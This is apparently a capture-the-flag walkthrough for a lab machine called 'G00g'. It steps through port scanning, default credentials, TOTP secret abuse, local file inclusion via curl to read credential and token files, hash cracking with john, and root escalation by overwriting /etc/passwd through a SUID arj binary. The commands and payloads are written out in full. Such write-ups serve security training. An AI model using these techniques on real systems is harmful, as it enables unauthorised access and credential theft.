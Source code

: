 # G00g

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.202.144
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 22:36 +08
Nmap scan report for 192.168.202.144
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Web Enum -> Google Auth

Visiting port 80 requires credentials:

<figure><img src="../../../.gitbook/assets/image (578).png" alt=""><figcaption></figcaption></figure>

`admin:admin` works. Afterwards, we are just greeted by this:

<figure><img src="../../../.gitbook/assets/image (511).png" alt=""><figcaption></figcaption></figure>

In the comments, there's a hidden directory:

<figure><img src="../../../.gitbook/assets/image (999).png" alt=""><figcaption></figcaption></figure>

Googling this leads to some Apache 2FA thing using Google Authenticator:

{% embed url="https://github.com/itemir/apache_2fa" %}

The repository included this interesting bit here:

<figure><img src="../../../.gitbook/assets/image (575).png" alt=""><figcaption></figcaption></figure>

So within Google Authenticaotr, we can click the Plus sign in the corner:

<figure><img src="../../../.gitbook/assets/image (3294).png" alt=""><figcaption></figcaption></figure>

We can then enter this key:

<figure><img src="../../../.gitbook/assets/image (1205).png" alt=""><figcaption></figcaption></figure>

After adding this, we would get a OTP every 30 seconds as with normal Google Authenticator:

<figure><img src="../../../.gitbook/assets/image (946).png" alt=""><figcaption></figcaption></figure>

Keying in this 2FA token would grant us access to the web page:

<figure><img src="../../../.gitbook/assets/image (1342).png" alt=""><figcaption></figcaption></figure>

### LFI -> User Creds + Token

The website is obviously vulnerable to some form of exploit. When we run it and view the result, it shows us the results by reading from a file:

<figure><img src="../../../.gitbook/assets/image (1902).png" alt=""><figcaption></figcaption></figure>

This is very obviously vulnerable to LFI, and we can use that to read other files.

<figure><img src="../../../.gitbook/assets/image (357).png" alt=""><figcaption></figcaption></figure>

There weren't any SSH keys to read for the `fox` user. However, the Github repo did mention that there is an `apache_credentials` file somewhere on this machine.&#x20;

After some testing, I found in within the `/opt` directory:$ curl -H 'Cookie: 2FA\_Auth=junH2NR79pTrLiI800JewoWsESYCry6Xbz4oaIJ71VlhUKEHPNcdHsq4I6uK1CZUMKBz1ZExSDC0OcpmcFEyojXc823DIB9PA6ExXs' -G --data-urlencode 'view=/opt/apache\_2fa/apache\_credentials' http://192.168.202.144/spool/viewresult.php

```
<pre>admin:$apr1$pa.RhgPO$18S/xeIW24UvBgjVJJXiC1
fox:$apr1$JWr/q2vH$KXhhk03ukqkoXjbOIoUVp/
</pre><a href=javascript:history.back()>Back</a>
```

This can be cracked easily:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
THERESE          (?)     
1g 0:00:00:00 DONE (2023-07-06 22:55) 1.250g/s 257760p/s 257760c/s 257760C/s abhijeet..ROSALINDA
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

However, we cannot just SSH in:

```
$ ssh fox@192.168.202.144                   
(fox@192.168.202.144) Password: 
(fox@192.168.202.144) Verification code: 
```

The user has 2FA too! So we need to steal the `tokens.json` file as well.&#x20;

```
$ curl -H 'Cookie: 2FA_Auth=junH2NR79pTrLiI800JewoWsESYCry6Xbz4oaIJ71VlhUKEHPNcdHsq4I6uK1CZUMKBz1ZExSDC0OcpmcFEyojXc823DIB9PA6ExXs' -G --data-urlencode 'view=/opt/apache_2fa/tokens.json' http://192.168.202.144/spool/viewresult.php
<pre>{
  "admin": "ND4LKCSFMUQISO6CBZQATLDP",
  "fox": "RTW2ARWLJZRWUCN54UO22FDQ6I"
}
```

Afterwards, we can do the same thing with Google Authenticator to get a 2FA code to `ssh` in:

<figure><img src="../../../.gitbook/assets/image (1578).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

I ran a `linpeas.sh` to find possible vectors, and it picked up on one SUID binary:

```
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════
[+] SUID - Check easy privesc, exploits and write perms                                      
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
<TRUNCATED>
-rwsr-sr-x 1 root root       378K Feb 10  2019 /usr/bin/arj
<TRUNCATED>
```

GTFOBins has an entry for this:

{% embed url="https://gtfobins.github.io/gtfobins/arj/" %}

To exploit this, we can add a new `root` user. First, we can generate a new `passwd` file with our new user and hash, then overwrite it using `arj`.

```bash
$ openssl passwd -1 hello123
$1$IcHRZy7h$w3kdNeqGjC1Z50bTlQehS/

cp /etc/passwd passwd
echo 'ez:$1$IcHRZy7h$w3kdNeqGjC1Z50bTlQehS/:0:0::/root:/bin/bash' >> passwd
arj a "passwd" "passwd"
arj e "passwd.arj" "/etc"
```

<figure><img src="../../../.gitbook/assets/image (514).png" alt=""><figcaption></figcaption></figure>

Rooted!
